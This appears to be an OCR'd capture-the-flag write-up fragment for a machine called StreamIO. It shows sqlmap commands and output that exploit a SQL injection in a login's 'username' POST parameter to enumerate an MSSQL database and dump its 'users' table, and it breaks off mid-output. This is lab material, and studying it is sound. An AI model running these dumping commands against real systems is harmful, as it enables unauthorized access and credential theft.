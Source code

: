 ```bash
12:24:22] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[12:24:22] [INFO] fetching current database
[12:24:22] [INFO] resumed: STREAMIO
[12:24:22] [INFO] fetching tables for database: STREAMIO
[12:24:22] [INFO] fetching number of tables for database 'STREAMIO'
[12:24:22] [INFO] resumed: 2
[12:24:22] [INFO] resumed: dbo.movies
[12:24:22] [INFO] resumed: dbo.users
[12:24:22] [INFO] fetching columns for table 'movies' in database 'STREAMIO'
[12:24:22] [INFO] resumed: 6
[12:24:22] [INFO] resumed: id
[12:24:22] [INFO] resumed: imdb
[12:24:22] [INFO] resumed: metascore
[12:24:22] [INFO] resumed: movie
[12:24:22] [INFO] resumed: votes
[12:24:22] [INFO] resumed: year
[12:24:22] [INFO] fetching entries for table 'movies' in database 'STREAMIO'
[12:24:22] [INFO] fetching number of entries for table 'movies' in database 'STREAMIO'
[12:24:22] [INFO] resumed: 895
```
```bash
└─$ sqlmap -r reqlogin --batch --dump --risk=3 --dbms=MSSQL --dbs dbo.users
        ___
       __H__                                                                                                                                                                                 
 ___ ___[']_____ ___ ___  {1.6#stable}                                                                                                                                                       
|_ -| . [.]     | .'| . |                                                                                                                                                                    
|___|_  ["]_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                 


```


```bash
└─$ sqlmap -r reqlogin --batch -D STREAMIO --dump -T users     
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6#stable}                                                                                                                                                       
|_ -| . [(]     | .'| . |                                                                                                                                                                    
|___|_  [)]_|_|_|__,|  _|                                                                                                                                                                    
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                 

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:38:04 /2022-09-09/

[16:38:04] [INFO] parsing HTTP request from 'reqlogin'
[16:38:04] [INFO] resuming back-end DBMS 'microsoft sql server' 
[16:38:04] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
```